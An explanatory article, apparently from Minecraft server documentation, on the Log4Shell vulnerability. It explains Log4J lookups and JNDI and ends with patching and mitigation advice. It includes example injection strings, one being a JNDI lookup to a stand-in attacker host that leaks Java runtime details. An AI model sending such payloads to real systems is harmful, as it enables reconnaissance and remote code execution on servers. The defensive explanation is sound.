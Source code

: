 # Log4J JNDI Exploit

## What is Log4J?

Log4J is the most popular logging library in the Java world. It is used everywhere. You can name any company, they are probably using it, if they have services running Java.
It is so popular, there are many variants for other languages which were inspired by Log4J.

Each log message is sent to a set of previously configured "appenders" which
write or send the data to different locations. This can be a file, database or many others.

## Log4Shell Vulnerability

The exploit was submitted to Apache by Alibaba on November 24, 2021. It was then published in a tweet on December 9, 2021. The vulnerability was given the descriptor "Log4Shell"
and CVE number [CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228). It was also given the maximum CVSS score: 10/10. This marks it as very severe, as it is used
by millions of servers and computer around the world.

## Lookups

Log4J supports **lookups**. This allows for logging information about the system (time, date, version, ...). This can be done with a simple syntax in the message
string you give to Log4J when logging something or in the configuration.
Your entered string is then evaluated by Log4J and it then replaces your string with some meaningful data, if you asked for it.

I.e. if I want to get the current OS:

```java
${java:os}
```

This does also work recursively, which means you can nest multiple expressions inside of each other. More on lookups can be found [here](https://logging.apache.org/log4j/2.x/manual/lookups.html).

Now, this is kind of a problem, but not a that severe one. We'll come to the real big problem of this exploit later. Take the following example:

You are running a Minecraft server. Someone is joining with a modified client. The client does not send his real name. Instead, he sends this:

```java
${java:hw}
```

This is a lookup, which will also be logged and evaluated when logged in the server logs. Instead of this string, it'll log your own hardware information.
Now, this isn't really a big problem. This just means you kind of can't really trust your logs anymore. But we're just getting started.

## JNDI

JNDI is the Java Naming and Directory Interface, which is able to lookup data in other services. These can be LDAP, DNS, RMI and some other servers. This is **not** a part of
Log4J and is included in Java. Don't confuse this.

Such a lookup could look like this:

```java
${jndi:ldap://mycoolserver.com/some-data}
```

How can an attacker make use of this? It works like this: Let's take our example with the minecraft server again. The attacker is joining again and is sending
a modified player name:

```java
${jndi:ldap://totallytrustworthyserver.tk/${java:runtime}}
```

In this JNDI lookup, Log4J will send a request to the LDAP server at totallytrustworthyserver.tk and will send the servers Java runtime information.
Now our attacker already knows the exact Java version and distribution we're running.

The LDAP server can also return something, for example a Java object. JNDI will happily accept this response and execute it. Now this is a big problem.
Just to rehearse: There is a foreign piece of code with potentially bad instructions in it, that is executed on **your** server without your knowledge.

As this is a complicated topic, we won't go deeper into this. If you want to learn more, you can find good resources online for further reading.

## How do I secure myself?

An important rule in the whole IT is to always install the latest security updates. These also include patches like this one here.

If you are using Log4J in your application, make sure to update to version 2.17.0 or later. If you're unable to do this, make sure to
remove `org.apache.logging.log4j.core.lookup.JndiLookup` from your classpath.

!!! note

    Only the log4j-core are affected by this vulnerability. If you're only using log4j-api (i.e. in a Minecraft plugin) your project is not affected.

Update your server to the latest version available. Make sure the maintainers have updated their Log4J dependency. Some older versions of some server software may not be
maintained anymore. You then have to manually make sure, it's dependency is up to date.
